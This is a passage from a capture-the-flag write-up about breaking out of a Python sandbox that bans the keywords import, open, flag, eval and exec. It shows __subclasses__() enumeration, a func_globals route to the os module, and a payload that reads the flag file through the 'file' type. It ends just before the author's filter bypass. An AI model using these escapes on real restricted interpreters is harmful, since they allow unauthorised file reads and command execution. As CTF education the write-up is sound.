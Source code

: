```python
"""

		while True:
				serve()

if __name__ == '__main__':
		main()


```

There are prohibited keywords: *import, open, flag, eval and exec.* There are some useful write-ups on these type of challenges: [http://tomforb.es/breaking-out-of-secured-python-environments](http://tomforb.es/breaking-out-of-secured-python-environments), [http://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/](http://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/), [https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/).

So our research starts with enumerating available subclasses and types and search for something interesting, like os() calls.

```
[].__class__.__base__.__subclasses__()
baby@sics:~$ [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'sys.floatinfo'>, <type 'EncodingMap'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <class 'site._Printer'>, <class 'site._Helper'>, <type 'pwd.struct_passwd'>, <type 'file'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

There's, I think, many ways to do this. For example, finding class that contains os calls, like

> ().**class**.**base**.**subclasses**()[59].**init**.func_globals["linecache"].**dict**["os"]

I went for easy way. We see particulary interesting *type 'file'*. Alright, so now we can read read our flag:

```
[].__class__.__base__.__subclasses__()[59]('/home/pybaby/flag.txt').read()
baby@sics:~$ #rekt
```

No, something not right. Right, we are prohibited to use 'flag' keyword. Let's try quick and dirty hack:
